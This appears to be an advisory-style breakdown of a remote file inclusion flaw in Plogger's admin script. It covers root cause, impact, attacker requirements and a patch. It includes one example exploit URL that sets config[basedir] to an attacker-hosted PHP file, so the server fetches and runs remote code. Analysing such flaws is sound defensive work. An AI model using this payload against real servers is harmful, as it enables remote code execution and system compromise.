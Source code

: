 Based on the provided content, here's a breakdown of the vulnerability described:

**Root Cause of Vulnerability:**

*   The vulnerability stems from an insecure way of including files in the `/admin/plog-admin-functions.php` script. Specifically, the script uses `require_once()` with paths constructed from the `$config['basedir']` variable. This variable can be manipulated via a GET parameter.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is Remote File Inclusion. The application does not properly sanitize or validate the value of the `config[basedir]` parameter. This allows an attacker to include arbitrary remote files via a URL, which will be executed by the server.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious file from a remote server, the attacker can execute arbitrary code on the web server hosting the vulnerable application.
*   **Full System Compromise:** Depending on the server's configuration, the attacker could potentially gain control of the entire system.
*   **Data theft/manipulation:** Attackers may be able to steal sensitive data and manipulate information stored on the server.

**Attack Vectors:**

*   **HTTP GET Request:** The attack is performed by sending a crafted HTTP GET request to the vulnerable script (`/admin/plog-admin-functions.php`). The request includes a `config[basedir]` parameter pointing to a malicious PHP file hosted on an attacker-controlled server.
    *   Example: `http://www.server.com/PATH/admin/plog-admin-functions.php?config[basedir]=http://www.hack.com/evil_file.php?cmd=uptime`

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker must have network access to the vulnerable server.
*   **Basic HTTP knowledge:** The attacker needs to be able to craft HTTP requests with malicious parameters.
*   **PHP knowledge (for crafting the malicious file):** To fully exploit the vulnerability, the attacker needs to create a malicious PHP file to be included by the target.

**Additional Details:**

*   The provided information includes a patch that checks if `$_REQUEST['config']` or `$_REQUEST['basedir']` are set, and if so, the script will terminate to prevent remote file inclusion.
*   The vulnerability is described as a high-risk remote exploit with a CVSS base score of 7.5.
*   The report also mentions that this vulnerability is present in the `/admin/plog-admin-functions.php` file within Plogger.

The information provided is consistent with the description of CVE-2005-4573 which is related to a remote file inclusion vulnerability in Plogger.